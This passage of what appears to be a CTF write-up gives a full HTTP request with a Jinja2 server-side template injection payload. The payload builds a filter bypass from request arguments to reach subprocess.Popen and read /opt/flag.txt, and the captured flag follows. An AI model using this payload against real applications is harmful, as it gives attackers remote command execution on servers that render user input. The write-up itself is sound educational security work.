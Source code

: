 
Flag is at **/opt/flag.txt**

Getting flag contents:

![wc19](/assets/playsecure2021/wc19.png)

{% raw %}
```python
POST /generate?class=__class__&mro=__mro__&getitem=__getitem__&sc=__subclasses__ HTTP/1.1
Host: web.ps.ctf.ae:8882
Content-Length: 372
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://web.ps.ctf.ae:8882
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.ps.ctf.ae:8882/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

firstName=a&lastName=b&desc={% set string = "abc" %}{% set cls = string|attr(request.args.class) %}{% set mro = cls|attr(request.args.mro) %}{% set obj = mro|attr(request.args.getitem)(1) %}{% set subclasses = obj|attr(request.args.sc)() %}{% set popen = subclasses|attr(request.args.getitem)(411) %}{{popen('cat /opt/flag.txt',shell=True,stdout=-1).communicate()|safe}}

```
{% endraw %}

_FLAG: CTFAE{ASurpriseToBeSureButAWelcomeOne}_

